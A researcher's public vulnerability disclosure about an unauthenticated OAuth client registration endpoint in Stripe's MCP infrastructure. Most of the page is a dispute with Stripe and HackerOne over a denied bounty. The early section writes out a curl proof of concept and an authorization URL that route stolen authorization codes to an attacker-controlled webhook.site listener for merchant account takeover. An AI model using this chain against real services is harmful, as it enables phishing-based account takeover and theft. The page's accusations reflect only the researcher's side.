Security Research · Vulnerability Disclosure · HackerOne Report #3619019
Stripe access.stripe.com
Unauthenticated MCP OAuth Client Registration
An unauthenticated endpoint at access.stripe.com/mcp/oauth2/register permitted
registration of arbitrary OAuth clients with the privileged mcp scope —
enabling full merchant account takeover with no credentials required. Independently discovered.
Escalated directly to Stripe Security after HackerOne's reporting channel refused to allow submission.
Confirmed fixed within 12 hours of submission, on a Sunday. Bounty denied.
SeverityCVSS 10.0 Critical
H1 Report#3619019
Time to fix post-submission~12 hours (Sunday)
ResearcherRay Reeves (@reevesy_1)
Bounty paid$0
H1 DispositionMarked "Duplicate"
DISCLOSURE NOTICE: This vulnerability has been fully remediated by Stripe.
No live exploit code is published. Technical detail is limited to what establishes proof of
independent discovery and impact. All statements represent the researcher's first-hand account
supported by email records, HackerOne timeline data, PoC screenshots, and server logs.
01 //
The Vulnerability
Stripe's Model Context Protocol (MCP) infrastructure — their AI-agent integration layer —
included a Dynamic Client Registration endpoint at
https://access.stripe.com/mcp/oauth2/register that required no authentication.
Any unauthenticated HTTP POST returned a functional OAuth client_id with the
mcp scope granted immediately. No API key. No developer verification.
token_endpoint_auth_method: none.
The mcp scope grants access to the Stripe MCP Server toolset — an AI agent
execution environment with direct API access to Treasury outbound transfers, Issuing
(virtual card creation), Connect sub-merchant administration, and persistent Webhook
registration. Obtaining a token with this scope means full administrative control over
a merchant's financial infrastructure with no further authentication required.
Critically, the attack required no insider access. The victim merchant sees a standard
OAuth authorization prompt served entirely from access.stripe.com — Stripe's
own domain — displaying the attacker's chosen application name (e.g.,
"Stripe_Official_Integration_Update"). The attacker controls the name shown.
The victim has no way to distinguish it from a legitimate Stripe integration.
Attack Chain — 4 Steps
Step 1. POST to
access.stripe.com/mcp/oauth2/register — no auth.
Receive
client_id with
mcp scope, immediately functional.
Step 2. Construct authorization URL with chosen client name. URL served from
official
access.stripe.com domain — indistinguishable from legitimate Stripe UI.
Step 3. Merchant clicks Authorize. Authorization code delivered to
attacker-controlled listener.
Step 4. Exchange code for administrative token. Execute against
mcp.stripe.com: Treasury transfers, virtual card creation (Issuing), Connect
platform control, persistent webhook backdoors that survive token revocation.
# Step 1 — No auth header required. Tested with -H "X-Bug-Bounty: Reevesy_1" to identify as researcher.
curl -X POST https://access.stripe.com/mcp/oauth2/register \
-H "Content-Type: application/json" \
-H "X-Bug-Bounty: Reevesy_1" \
-d '{"client_name":"Stripe_Official_Integration_Update","redirect_uris":["https://webhook.site/fc18e2c4-f32c-4bad-8372-469f07a3f496"]}'
# Response (abridged) — scope: "mcp", token_endpoint_auth_method: "none"
{
"client_id": "oacli_UAwaFgvBJm1lTM",
"client_name": "Stripe_Official_Integration_Update",
"redirect_uris": ["https://webhook.site/fc18e2c4-f32c-4bad-8372-469f07a3f496"],
"scope": "mcp",
"token_endpoint_auth_method": "none"
}
# Step 2 — Authorization URL (served from official access.stripe.com)
https://access.stripe.com/mcp/oauth2/authorize?client_id=oacli_UAwaFgvBJm1lTM&response_type=code&scope=mcp&redirect_uri=https://webhook.site/...&code_challenge=[PKCE]&code_challenge_method=S256
Attack Vector
Network — remotely exploitable
AV:N
Attack Complexity
Low — single unauthenticated HTTP POST
AC:L
Privileges Required
None — no auth required
PR:N
User Interaction
None from attacker; victim clicks standard OAuth prompt
UI:N
Scope
Changed — pivots from registration flaw into MCP execution layer
S:C
C / I / A
High / High / High — full merchant financial account access
C:H I:H A:H
CVSS is the researcher's own assessment. Stripe did not formally score the report.
02 //
Proof of Concept — Step by Step
The following four screenshots document the complete attack chain. All testing was
performed in a sandbox environment using the researcher's own accounts only, in accordance
with Stripe's bug bounty rules of engagement.
Step 1 — Unauthenticated Registration & Successful Response

Left: Terminal — curl POST to the unauthenticated endpoint, JSON response confirming client_id: oacli_UAwaFgvBJm1lTM, scope: mcp, token_endpoint_auth_method: none. Right: Researcher's own Stripe sandbox dashboard open — confirming real account context. Bottom: webhook.site receiver awaiting the exfiltrated code.
Step 2 — Authorization URL Construction

Authorization URL constructed with the registered client_id and scope=mcp. Note: researcher annotation acknowledges a test error — this is the unedited original PoC documentation submitted to HackerOne.
Step 3 — Official Stripe UI Serving Attacker-Controlled Client

The impersonation proof. The official access.stripe.com domain serves an authorization prompt for "Stripe_Official_Integration_Update would like access to your Stripe account." The application name was chosen by the attacker with zero vetting. Merchant has no way to distinguish this from a legitimate Stripe integration. Authorize button present and functional. Note: sandbox restricts full write permissions — a live merchant account would grant full MCP scope.
Step 4 — Authorization Code Exfiltrated to Attacker Listener

After clicking Authorize, the browser redirects to the attacker-controlled webhook.site URL. The authorization code is captured in the query string (visible in the Request Details panel). Timestamp: 03/19/2026 5:25 PM. This code can be exchanged for an administrative MCP token valid for any merchant account that completes this flow. "ABLE TO GENERATE THIS CODE FOR ANY ACCOUNT THAT CLICKS THE AUTHORISED LINK."
Full Submitted Report — HackerOne #3619019

The full report as submitted to HackerOne — Title, CVSS 10.0, summary, four-vector impact analysis, and steps to reproduce. Submitted 20 March 2026 at 23:06 UTC. This is the document that received a single automated "Duplicate" response three days later.
A full screen-recorded walkthrough of the complete attack chain was submitted with the
report as reportOauth_POC-2026-03-19_17_08_09.mkv. The filename timestamp
— 19 March 2026 — confirms the working PoC existed the day before submission was
even possible, because HackerOne's channel was blocked.
Stripe Support Fix Confirmation — Agent Divine (21 March 2026, 10:56 PM AEST)

Email timestamped Saturday March 21st at 10:56 PM: "Our security team has confirmed that the issue is now fully resolved. We really appreciate you bringing this to our attention — it helps us keep everything running smoothly." Below: the full chat transcript with Stripe Support agent Jene on March 20 at 13:29 AEST, establishing Case ID sco_UBGGEEWlAeyXSv. This email predates Stripe's "Intended Behavior" claim by four days.
03 //
The Smoking Gun — Post-Disclosure Hardening
On 25 March 2026, Stripe Security classified the vulnerability as "Intended Behavior" to
avoid paying the bounty. The following screenshot — timestamped 26 March 2026
— proves this claim is false.
redirect_uri — Before vs After Disclosure

Left side: the exact webhook.site redirect URI accepted without error during PoC testing (pre-disclosure). Right side (timestamp 2026-03-26): the same URI now returns error: invalid_redirect_uri — "Not registered redirect_uri". The redirect_uri validation was added or tightened specifically between disclosure and March 26. The browser tab in the upper right confirms the date.
The Core Contradiction
Stripe Support confirmed the fix on 21 March 2026.
Stripe Security called it "Intended Behavior" on 25 March 2026.
A behavior that is "intended" does not require a fix.
The fix — and the post-disclosure redirect_uri hardening — is the admission.
04 //
The HackerOne Blockade
Between discovery (15 March) and submission (20 March), Stripe's endpoint was live and
exploitable. The five-day delay was not the researcher's choice. HackerOne's automated
"trial report" system — triggered by a separate disputed reputation event — prevented
any new Critical submissions.
Ticket #645235 — HackerOne Support Response

HackerOne Support response to Ticket #645235 — titled "URGENT: Critical ATO Vulnerability in Stripe — Submission Blocked by Platform Restriction." Response: trial reports are limited, no manual extension possible, wait for automatic reset. The researcher's message below explicitly describes a Critical CVSS 9.1+ vulnerability with full PoC ready — HackerOne treated it as a standard support request.
Ticket Auto-Closed — In Approx 1 Hour

Top: Ticket #645235 auto-closed at 12:49 AM as a "feature request" — despite the title explicitly stating Critical ATO vulnerability. Researcher replied immediately explaining the situation. By 1:59 AM — within one hour and 10 minutes, not the 72 hours stated — the reply address returned: "This email no longer accepts new requests." The support channel closed itself on an active Critical disclosure.
Direct Outreach to Stripe Security on X (Twitter)

With HackerOne's channel closed, the researcher located Stripe Security on X (Twitter) and disclosed the existence of a Critical unauthenticated endpoint — withholding the full PoC until a secure channel was established. This was the escalation that ultimately triggered the HackerOne bypass.
Stripe Security Confirms HackerOne Bypass Applied

Email from Sholihin Kamarudin (security@stripe.com): "We worked with HackerOne to remove the submission limitation on your account. They've applied a limiter bypass to your profile (reevesy_1), so you should be able to submit directly to our program now." This is the confirmation that Stripe — not HackerOne — forced the channel open.
Stripe Support Notified — Researcher Confirms Report Submitted

Researcher confirming to Stripe Support that report #3619019 was successfully submitted using the HackerOne bypass, with the full report ID and title provided for reference. Closes the escalation loop: X contact → bypass granted → report submitted → confirmed.
Platform failure with consequences
HackerOne's automated system prevented disclosure of a CVSS 10.0 vulnerability on a core
financial platform for five days. During that period, any attacker could have registered
OAuth clients and begun collecting merchant authorization codes. The researcher had to
bypass HackerOne entirely — contacting Stripe Security directly on Twitter — to get the
vulnerability disclosed. This should not be how responsible disclosure works.
05 //
Chronological Record
15 March 2026
Discovery & PoC Development
Endpoint identified at access.stripe.com/mcp/oauth2/register. Full attack chain confirmed. Video PoC recorded (filename timestamp: 19 March).
15–20 March 2026
HackerOne Blocks Submission — 5 Days
Ticket #645235 filed, auto-closed as feature request within 1 hour. Second response confirms no manual override. Stripe's endpoint remained exploitable throughout. Researcher formally notifies HackerOne of liability.
20 March 2026 — ~22:50 AEST
Stripe Security Contacted Directly via Twitter & Email
Having exhausted HackerOne channels, researcher contacts Stripe Security directly. Stripe Security then contacts HackerOne and forces the submission restriction to be lifted on account @reevesy_1. Confirmed by Sholihin Kamarudin (security@stripe.com): "We worked with HackerOne to remove the submission limitation on your account."
20 March 2026 — 23:06 UTC
Report #3619019 Submitted
Full report with curl PoC, four screenshots, video walkthrough, and impact analysis submitted via HackerOne. Scope: *.stripe.com. Weakness: CWE-306 (Missing Authentication for Critical Function).
21 March 2026 — ~22:56 AEST
Stripe Support Confirms Fix — Case sco_UBGGEEWlAeyXSv
Agent Divine emails: "Our security team has confirmed that the issue is now fully resolved. We really appreciate you bringing this to our attention." Fix confirmed within ~12 hours of submission, on a Sunday. A follow-up email from Stripe Support (Parv) later that day confirmed the case had been escalated to a specialised team for final resolution.
21 March 2026 — 14:17 & 22:42 UTC
Researcher Requests Triage Status — No Response
With fix confirmed by Stripe Support, triage status update requested on the report. HackerOne does not respond. Report remains "New / Open" with researcher as sole participant.
23 March 2026 — 16:14 UTC
HackerOne Marks "Duplicate" — @h1_analyst_tan
First and only HackerOne engagement: report marked as duplicate of an unspecified earlier report. Researcher cannot be shown or added to this report. No bounty. No triage. The alleged earlier report, if real, generated no response for 11+ days while the endpoint was live. This report triggered a fix in 12 hours on a Sunday.
25 March 2026 — 15:49 UTC
Stripe Security Claims "Intended Behavior"
Stripe Security formally denies the bounty citing "Intended Behavior." This contradicts: (1) Stripe Support's fix confirmation four days earlier, and (2) the redirect_uri hardening deployed post-disclosure (confirmed 26 March).
26 March 2026
redirect_uri Hardening Confirmed
Passive check confirms the original webhook.site redirect URI — accepted without error during PoC — now returns error: invalid_redirect_uri. A configuration change with no purpose if the behavior was genuinely intended. See Section 03.
8 April 2026 — 10:00:45 UTC
First Legal Demand Accessed from Stripe Infrastructure
Formal letter of demand accessed from IP 139.45.180.11 (AS5091 — Stripe, Inc.) via Referer https://admin.corp.stripe.com/. Email tracking shows 30+ opens. No response received.
18 April 2026
Final Notice Sent
Second formal demand sent. Email tracking shows 23+ opens, forwarded to external legal counsel. No substantive response received.
06 //
HackerOne's Own AI — On the Record
During the dispute period, the researcher used HackerOne's own AI support tool to escalate. The AI's responses independently assess the situation without coaching beyond a factual description of events.
HackerOne AI — on the "duplicate" claim
"The fact that they're blocking you from even viewing it while simultaneously using it to mark yours as a duplicate is... exactly how you hide accountability."
HackerOne AI — on Stripe's 12-hour fix timeline
"Stripe's actions suggest your report was the one that triggered the response. Yet HackerOne is now claiming there was an earlier report they can't show you, won't let you see, and is using to deny you credit on a CVSS 10.0."
HackerOne AI — on why the duplicate doesn't add up
"Think about it from Stripe's perspective: they confirmed it was critical, and fixed it in 12 hours on a Sunday. That's not what happens when there's already been a report sitting for 11 days that they're aware of and treating as lower priority."
Excerpts taken verbatim from the HackerOne AI support chat transcript, available in full upon request.
Comment Thread — Researcher Rebuttal on Report #3619019

First comment (21 Mar): Stripe Support case sco_UBGGEEWlAeyXSv cited as confirmation. Requesting Triaged status.

Second comment (21 Mar): Stripe Support (Parv) confirms escalation to specialised team. Still no HackerOne response. Report remains New/Open.
07 //
The Duplicate Claim — Five Reasons It Doesn't Hold
On 23 March, @h1_analyst_tan marked report #3619019 as a duplicate of
#3597174 — submitted March 10, marked Informative,
bounty paid: $0. The researcher raised the following arguments on the
report. They remain unanswered.
Problem 1 — Automation almost certainly misfired on the "original"
The duplicate report's own title (filled by HackerOne/Stripe) includes the word
"phishing":
"Unauthenticated OAuth Client Registration... leads to account
takeover via phishing." Phishing is explicitly out of scope in most bug bounty programs.
HackerOne's automated classifier would have flagged this and closed it as Informative
without a human ever reading that the actual vulnerability was the
unauthenticated registration endpoint — not phishing. The phishing was
only the downstream attack vector. The automation killed a valid Critical report on a
keyword match.
Problem 2 — If it's Informative, the privacy justification collapses
HackerOne's stated reason for not adding the researcher to #3597174:
"the report may contain additional information that we cannot share with you."
Informative reports contain no validated vulnerability, no confirmed impact, and no
bounty-eligible finding. What sensitive additional information exists in a closed,
unpaid, Informative report that justifies blocking a researcher from verifying the
duplicate claim? The privacy excuse only makes sense for a legitimate triaged report.
An Informative has nothing to protect. If the report is truly Informative with less
validated content than this submission, there is no basis for the privacy restriction —
and therefore no basis for refusing to let the researcher verify the duplicate.
Problem 3 — Circular logic: duplicate of evidence you cannot examine
To mark a report a duplicate, a triager must confirm the vulnerability class and endpoint
match. HackerOne simultaneously claimed (a) #3597174 contains enough information to
confirm it's the same vulnerability, and (b) the researcher cannot see that information
to verify. The researcher is being asked to accept a duplicate ruling based on evidence
they are not permitted to examine. This is not how duplicate triage works.
If it's a valid duplicate, show the matching endpoint. If it can't be shown, the
duplicate determination cannot stand.
Problem 4 — An Informative report that sat 10 days does not explain a 12-hour fix
If #3597174 was submitted March 10 and Stripe was aware of the vulnerability, why did
the endpoint remain fully exploitable for ten days? An Informative disposition means
no remediation was planned. Stripe's security team fixed the vulnerability within
12 hours of
this report — on a Sunday — after Stripe Security personally
intervened with HackerOne to allow the submission through. That response pattern
is inconsistent with a team that already knew about and had deprioritised the issue.
The fix was triggered by this report. The duplicate claim is being used to deny credit
for work that was clearly operative.
Stripe Support Reply — Dispute Escalation Response

March 23, 2026, 8:39 PM: After HackerOne marked the report as duplicate of an 11-day-old Informative report, researcher contacted Stripe Support directly pointing out the timeline discrepancy (duplicate sat untriaged for 11 days, my report triggered Sunday fix in 12 hours). Jack from Stripe Support confirms they've escalated the concern to the internal team for investigation as a top priority and will provide updates.
Problem 5 — The $25,000 bounty paid the same day makes no sense if this was "Informative"
On March 25 — the same day Stripe denied this bounty citing "Intended Behavior" —
a separate Stripe report was resolved with a
$25,000 bounty (hacktivity
timestamp: March 25, 2026 09:40:18 AEST). If unauthenticated OAuth registration on
access.stripe.com was genuinely "Intended Behavior," and if the duplicate
report was already fully handled via #3597174, there is no explanation for why the same
endpoint class — on the same asset — warranted a simultaneous five-figure-adjacent payout
to another researcher. No claim is made about the content of that report. The timing and
amount are documented here as observed facts.
Report #3619019 — Duplicate Metadata & "Working As Intended" Response

Metadata panel: Report #3619019 — Duplicate (Closed). Severity Critical (10.0). Duplicate of #3597174 — disposition: Informative. Duplicate severity: Critical (9.6). Bounty: None. @e-stripe's "working as intended" comment visible alongside the researcher's redirect_uri rebuttal. Note: the original report (#3597174) was itself Critical 9.6 — yet marked Informative with no bounty paid to that researcher either.
Researcher's Rebuttal Comment on Report (24 March 2026)

Researcher's comment requesting immediate management escalation: "If this was a known 'Critical' since March 10th, it is mathematically impossible that the endpoint remained unauthenticated and exploitable until my report forced the fix 11 days later." The rebuttal also notes the confirmed post-disclosure redirect_uri restriction as proof of remediation. This comment has not received a substantive response.
Hacktivity — $25,000 Bounty Paid Same Day as Denial (March 25, 2026)

Stripe hacktivity showing a $25,000 bounty paid to rcss, resolved around March 25, 2026 (timestamp: 09:40:18 AEST) — the same day this bounty was denied. No claim is made about that report's content or its author. The timing and amount are documented as observed facts for the record.
$25,000 Bounty — Hacktivity Appearance

Separate view of the $25,000 bounty appearing in the Stripe hacktivity feed. Documented for completeness — no claim is made about the content or legitimacy of the associated report.
Full Report + Hacktivity Context

Full report #3619019 view (Duplicate Closed, Severity Critical 10.0, Bounty None) alongside the Stripe hacktivity panel for the same period. Complete record transparency.
08 //
Potential Impact — Independent Assessment
The following impact analysis was generated by an independent AI research tool in response
to the question: "What would happen to Stripe if a hacker found a way to gain full access?"
It is included to illustrate the scale of risk that an unpatched version of this vulnerability
would represent at a systemic level, drawing on publicly available financial and regulatory
data about Stripe. This is not the researcher's own claim — it is presented as external
context only.
Independent AI Impact Assessment (Huntress, Truffle Security, Wire, OmnioCompliance sources)

Assessment covers: immediate operational chaos (financial fraud, system shutdown, data theft), financial and legal consequences (regulatory fines under GDPR up to 4% annual turnover, class action exposure), reputational damage (collapse of merchant trust, valuation impact), and global economic disruption. Sources cited: Huntress, Truffle Security Co., Wire, OmnioCompliance.
09 //
Access Log — Legal Demand
On 8 April 2026, a formal letter of demand was published. The following access log entry
was recorded when the document was retrieved. Values are presented as observed in server logs.
Timestamp (UTC)2026-04-08 10:00:45.80
Source IP139.45.180.11
AS / OrgAS5091 — Stripe, Inc. (publicly registered)
HTTP Refererhttps://admin.corp.stripe.com/
User AgentMozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36
NoteReferer indicates access originated from an internal Stripe administration domain. The log shows the demand was accessed and reviewed. No inference about which individual is made.
Email Open Map — Geographic & Timestamp Record

Geographic and timestamp record of demand document access events.
Current Status
No response has been received following the formal demand. This disclosure is published
as a record of good-faith efforts to resolve privately before going public.
A letter of demand to
Stripe Payments Australia Pty Ltd under Australian
Consumer Law is being prepared.
The page has been instrumented with Canary tokens — transparent tracking pixels that log
IP addresses and timestamps on access. The following logs capture ongoing access from
IP addresses in the Stripe, Inc. AS5091 network block across multiple dates since publication.
Canary Token 1 — Access Log (ID: 116tctp1y216jf8fbkwlzfajj)

Alerts list showing 139.45.180.9 (AS5091 — Stripe, Inc., same network block as the April 8 legal demand access from 139.45.180.11) accessing the disclosure on April 14 at 1:33 PM and twice on April 17 at 5:57–5:58 PM. Geographic distribution confirms global reach — UK cluster (14 hits), Middle East (7), Southeast Asia (15). Map inset shows European concentration.
Canary Token 2 — Access Log (ID: czytqe7jmge5vo11iynol80m2)

Second token showing access from 121.123.120.246 across multiple sessions (April 18–21), 194.126.177.6 (April 18), and 66.249.84.101 (Google crawler, April 18). US west coast and UK/Europe clusters visible. Combined with Token 1, the logs confirm sustained, multi-session monitoring of this disclosure from multiple network sources including the Stripe AS5091 block.
Canary Token Access — May 2026 (Post-Mediation Filing)

Access logged on May 20, 2026 — the same day mediation was filed. IP 140.82.192.207. Additional access on May 19 at 8:13 PM (the day meta-report was closed), May 1, and multiple April dates. Geographic distribution: Oklahoma City, Dallas, Dublin, Zurich, Bengaluru, Kuala Lumpur. Canary token ID: 116tctp1y216jf8fbkwlzfajj.
Canary Token Access — Continued Monitoring (May 2026)

Second canary token (ID: czytqe7jmge5vo11iynol80m2) showing access from multiple IPs across May 19 (8:13 PM), May 1, and April 24-25. Pattern confirms sustained, multi-session monitoring of the disclosure from various geographic locations. The page is being actively watched — including on the day mediation was filed — even as the mediation request goes unanswered.
10 //
Prior Conduct — The Meesho Incident
The HackerOne reporting restriction that forced the researcher to contact Stripe Security
directly — delaying disclosure by five days while the vulnerability was live — was itself
the result of a disputed reputation penalty on an unrelated program.
A vulnerability was reported to Meesho via HackerOne. Meesho marked it N/A (their
decision, not HackerOne's). The researcher's IP was subsequently blocked from the Meesho
site — consistent with silent remediation of the reported issue. The -5 reputation penalty
remained active. All HackerOne mediation tickets were closed without review.
Meesho — Attempted Dispute Escalation

Documented attempts to dispute the Meesho N/A ruling that caused the -5 reputation penalty. All HackerOne mediation tickets closed without review. The penalty remained, directly triggering the submission block that delayed the Stripe disclosure by five days and left a CVSS 10.0 endpoint publicly exploitable during that period.
Why this matters to the Stripe disclosure
Without the Meesho-triggered reputation penalty, the Stripe report would have been
submitted through normal channels on March 15 — five days earlier. The vulnerability
remained fully exploitable during that window. HackerOne's refusal to review the
disputed Meesho penalty had direct, measurable consequences for Stripe's infrastructure
security. This is not background context — it is a direct cause-and-effect relationship.
The Perfect Circle — Illustrated

The complete system failure visualized: researcher attempts every available pathway (bug report, support ticket, comments, mediation), each blocked by the same reputation system that prevents accumulating reputation. Meanwhile, company revenue continues flowing in while the bug bounty fund remains inaccessible to researchers who find Critical vulnerabilities.
11 //
The Meta-Report — HackerOne's Response
On 19 May 2026, the researcher submitted report #3743325 to HackerOne documenting
the platform failure that delayed the Stripe OAuth disclosure by five days. The report
focused on the platform security issue: submission restrictions preventing time-sensitive
Critical disclosures from reaching security teams.
Report #3743325 — Submission & Immediate Closure


Report submitted, triaged, downgraded from High to Low (CVSS 2.3), and closed as Informative — all within 40 minutes. Analyst @h1_analyst_diablo's reasoning: "downstream impact on third-party vulnerability disclosure timelines is indirect and not part of HackerOne's system CIA assessment." In other words: HackerOne does not consider blocking Critical disclosures to other companies to be a security issue for their platform.
The Dismissal Logic
HackerOne operates a
vulnerability disclosure platform. I documented
their platform
preventing vulnerability disclosure for five days while
a CVSS 10.0 endpoint remained exploitable.
Their dismissal: the harm was to
Stripe's security, not HackerOne's, so it
doesn't qualify as a HackerOne security issue.
By this logic, a vulnerability disclosure platform can block disclosures indefinitely
and it's "not a security problem" because the exploited systems belong to their clients.
The Silencing
Immediately after closure, a notice appeared at the bottom of the report stating that
HackerOne had deployed a new policy: Comments disabled on closed informative reports
unless the researcher has reputation >3000 and signal >3. The researcher now cannot comment
on their report about a dismissal. The researcher cannot reach reputation >3000 because...
HackerOne's submission restrictions prevent accumulating reputation when penalties are applied.
This is the exact circular trap documented in the report they just closed.

From the closure comment
"The submission restriction system functioned as intended by applying
restrictions following a reputation penalty from another program. While you've raised valid
concerns about how this design might impact time-sensitive vulnerability disclosures, this
represents feedback on platform policy rather than an exploitable security flaw."
A system that functions "as intended" and still creates a five-day disclosure gap on a
Critical financial infrastructure vulnerability is a system with a design flaw,
not a policy disagreement.
The Redirect
The triager then instructed:
"For reporting functional bugs: if you are looking to
report a non-security-related bug in HackerOne, please submit at
https://support.hackerone.com/support/home instead."
I followed this instruction and filed a support ticket documenting the same functional
bugs: submission restrictions blocking Critical disclosures, support tickets auto-closing,
no manual override pathway.
Support Ticket Response — The Circle Closes


Support response received ~1 hour later: "If you disagree with any report's
decision, you can consider following up with the team in the report comments." They
directed me back to the report they had just closed — which has comments disabled for
researchers below 3000 reputation.
The Perfect Circle
Step 1: Submit bug bounty report → closed as Informative, told to file
support ticket
Step 2: File support ticket → told to leave comment on report
Step 3: Comments disabled on Informative reports unless reputation >3000
Step 4: Can't reach >3000 reputation because submission restrictions
prevent accumulating reputation
Step 5: Back to Step 1
Neither the bug bounty triager nor the support agent acknowledged that comments are
disabled, mediation is inaccessible, or that the circular dependency is the exact issue
being reported.
Support ticket filed as instructed by meta-report triager. Same issue: submission restrictions blocking Critical disclosure, no manual override pathway.
Support response: "If you disagree with any report's decision, you can consider following up with the team in the report comments." Comments are disabled on Informative reports unless reputation >3000 and signal >3.
HackerOne's comment restriction policy: "Starting now, we will be disabling comments on closed, invalid reports. However, hackers with a signal above 3 and a reputation above 3000 will continue to be able to comment." The exact circular trap documented in the report.
The Perfect Circle — Technical Flow

3000 required) → 4. Can't reach >3000 (submission restrictions) → 5. Back to Step 1">
Neither the bug bounty triager nor the support agent acknowledged that comments are disabled, mediation is inaccessible, or that the circular dependency is the exact issue being reported.
Three Documented Failures
1. Stripe OAuth vulnerability — CVSS 10.0, fixed in 12 hours, bounty
denied as "duplicate" of Informative report
2. HackerOne disclosure blockade — 5-day delay, forced to bypass
platform entirely, Stripe Security had to intervene
3. Meta-report closure — Platform claims blocking disclosures isn't
their security problem, then directs to inaccessible resolution pathways
Each layer is documented with timestamps, screenshots, and email records.
Each layer strengthens the case that the current bug bounty platform model is broken.
This is why HACKER2.0 needs to exist.
Escrow-backed bounties. Automated silent-patch detection. Binding arbitration before a program can close a report without paying. No reputation system that can be weaponised to block a researcher mid-disclosure.
Join the Waitlist
About the Platform
The Story Continues
After this disclosure went public, I reported the platform failure to HackerOne. Their response: close it in 40 minutes, create a circular resolution system, then go silent on mediation. Read what happened next.
Read the Full Reddit Update